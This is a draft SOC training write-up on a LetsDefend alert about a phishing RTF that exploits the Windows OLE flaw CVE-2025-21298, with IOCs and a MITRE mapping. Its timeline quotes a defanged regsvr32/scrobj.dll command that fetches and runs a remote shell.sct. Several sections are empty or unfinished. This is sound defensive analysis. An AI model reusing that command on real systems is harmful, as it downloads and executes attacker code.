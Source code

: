 ```yaml
---
title: '[Write-up] LetsDefense: Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025-21298)'
description: 'Walk through investigation process of CVE-2025-21298'
pubDate: 'Feb 4 2025'
heroImage: '/blog-placeholder-2.jpg'
tags: ["write-up","SOC", "LetsDefend"]
---
```


## Initial Alert
```yaml
EventID : 314
Event Time : Feb, 04, 2025, 04:18 PM
Rule : SOC336 - Windows OLE Zero-Click RCE Exploitation Detected 
(CVE-2025-21298)
Level : Security Analyst
SMTP Address : 84.38.130.118
Source Address : projectmanagement@pm.me
Destination Address : Austin@letsdefend.io
E-mail Subject :Important: Action Required for Upcoming Project Deadline
Attachment : mail.rtf
Attachment Hash :
df993d037cdb77a435d6993a37e7750dbbb16b2df64916499845b56aa9194184
Device Action : Allowed
Trigger Reason : Malicious RTF attachment identified with known 
CVE-2025-21298 exploit pattern.
```
<p class="caption">Figure 1: Details of the initial alert</p>

When I looked at the alert I know not things about the vulnerablity, so the first thing I did is doing research to get some ideals 
how the exploit work and what kind of evidences I might see during the investigation.

<br/>

## Initial Research

My research questions about the CVE-2025-21298 are following:
- What exploit chain  look like?
- What are the affected products?
- Any publice exploit avalible?
- Is this vaulnerable is activtely using by threat actors?


Based on the researcher this CVE affected Object Linking and Embedding (OLE) (e.g., MS Word, and Outlook) and the poor-of-concept (POC) is demonstran only memory crup<cite>[^1]</cite>

Based on Microsoft Security Response Center there are no publice exploit or any threat action using this vulnerablity<cite>[^2]</cite>

> I assume ss

<br/>

## Hypothesis

## Investiga Questions


<br/>

## Timeline


| Time | Event | Attack Phease |
| :---- | :---- | :---- |
| Feb, 04, 2025, 05:12 AM | A sprint phishing email | Initital Compromise |
| Feb 04 2025 08:05:15 | Outlook.exe | Initital Compromise |
| Feb 04 2025 08:06:08 | cmd “regsvr32.exe /s /u /i:hxxp://84.38.130.118\[.\]com/shell.sct scrobj.dll” | Initital Compromise |
| Feb, 04, 2025, 08:06 AM | Get hxxp://84.38.130.118\[.\]com/shell.sct | Initital Compromise |


<br /> 

## Indicators of Compromise (IOCs)

<br /> 

#### Host-Based IOCs

| MD5 | FileName | Description |
| :---- | :---- | :---- |
| 961027d29dda725b8117571a6a6ca1d5 | mail.rtf | Malicious Attachment |

<br /> 

#### Network-based IOCs

| Value | Type | Description |
| :---- | :---- | :---- |
| hxxp://84.38.130.118\[.\]com/shell.sct | URL | Exploit Payload |
| 84.38.130\[.\]118 | IPV4 | C2 Server |
| projectmanagement@pm\[.\]me | Email | Phishing sender |



 <br /> 

## MITRE ATT&CK Mapping


**Initial Access**
- T1566.001  Phishing: Spearphishing Attachment

**Execution**
- T1129  Shared Modules

**Command and Control**

- T1071.001  Application Layer Protocol: Web Protocols

<br/>

---

[^1]: https://github.com/ynwarcs/CVE-2025-21298
[^2]: https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-21298